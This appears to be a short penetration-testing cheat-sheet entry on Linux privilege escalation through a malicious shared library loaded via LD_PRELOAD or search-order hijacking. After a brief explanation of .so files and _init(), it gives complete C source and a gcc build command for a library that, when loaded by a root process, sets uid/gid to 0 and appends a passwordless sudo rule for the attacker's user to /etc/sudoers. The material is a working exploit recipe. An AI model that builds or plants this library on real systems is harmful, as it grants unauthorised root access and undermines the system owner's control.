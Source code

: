 ## Shared Objects
An `.so` file in Linux (and other UNIX-like systems) is a shared object library — similar to a .dll on Windows.
It contains compiled code (machine instructions) that can be dynamically loaded by executables or other libraries at runtime.
When a .so is loaded, if it contains an `_init()` function, the linker automatically calls it.

Look if this library can be placed in folder from LD_PRELOAD. This would be similar to DLL Search Order Hijacking from Windows.

Create following file `a.c`
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo '<current user> ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```
Compile it with
```
gcc -fPIC -shared -o ./<name>.so a.c -nostartfiles
```
If binary/process running as root loads and executed it, it will add our user as sudoer.

